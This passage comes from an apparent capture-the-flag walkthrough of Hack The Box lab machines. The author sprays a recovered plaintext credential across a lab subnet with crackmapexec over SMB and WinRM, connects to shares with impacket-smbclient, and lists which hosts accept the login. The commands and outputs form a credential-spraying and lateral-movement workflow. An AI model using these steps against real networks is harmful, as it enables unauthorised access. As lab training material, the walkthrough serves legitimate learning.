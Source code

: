       </dir-list>
   </search>
</ldap-conf>
{% endvimhl %}

<br>

used **crackmapexec smb** using the credentials we got and found the following

{% vimhl bash %}
┌──(kali㉿kali)-[~/Tools]
└─$ crackmapexec smb 10.129.46.174/24 -u "raven" -p "R4v3nBe5tD3veloP3r\!123"
SMB         10.129.46.173   445    BASTION          [*] Windows Server 2016 Standard 14393 x64 (name:BASTION) (domain:Bastion) (signing:False) (SMBv1:True)
SMB         10.129.46.157   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
SMB         10.129.46.137   445    SAUNA            [*] Windows 10.0 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.46.145   445    SERVMON          [*] Windows 10.0 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.129.46.151   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.129.46.161   445    SAUNA            [*] Windows 10.0 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.46.171   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.129.46.174   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.129.46.173   445    BASTION          [+] Bastion\raven:R4v3nBe5tD3veloP3r!123 
SMB         10.129.46.157   445    DC01             [+] rebound.htb\raven:R4v3nBe5tD3veloP3r!123 
SMB         10.129.46.137   445    SAUNA            [-] EGOTISTICAL-BANK.LOCAL\raven:R4v3nBe5tD3veloP3r!123 STATUS_LOGON_FAILURE 
SMB         10.129.46.145   445    SERVMON          [-] ServMon\raven:R4v3nBe5tD3veloP3r!123 STATUS_LOGON_FAILURE 
SMB         10.129.46.151   445    DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 
SMB         10.129.46.161   445    SAUNA            [-] EGOTISTICAL-BANK.LOCAL\raven:R4v3nBe5tD3veloP3r!123 STATUS_LOGON_FAILURE 
SMB         10.129.46.171   445    DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 
SMB         10.129.46.174   445    DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123
{% endvimhl %}

<br>
found new shares and connected to them using impacket-smbclient but found nothing

{% vimhl bash %}
┌──(kali㉿kali)-[~]
└─$ impacket-smbclient BASTION/raven:R4v3nBe5tD3veloP3r\!123@10.129.46.173
.....
{% endvimhl %}

<br>

**crackmapexec winrm** got pwns on 3 ips

{% vimhl bash %}
┌──(kali㉿kali)-[~/Tools]
└─$ crackmapexec winrm 10.129.46.174/24 -u "raven" -p "R4v3nBe5tD3veloP3r\!123"
SMB         10.129.46.157   5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:rebound.htb)
SMB         10.129.46.173   5985   BASTION          [*] Windows 10.0 Build 14393 (name:BASTION) (domain:Bastion)
HTTP        10.129.46.173   5985   BASTION          [*] http://10.129.46.173:5985/wsman
HTTP        10.129.46.157   5985   DC01             [*] http://10.129.46.157:5985/wsman
SMB         10.129.46.137   5985   SAUNA            [*] Windows 10.0 Build 17763 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL)
SMB         10.129.46.151   5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:manager.htb)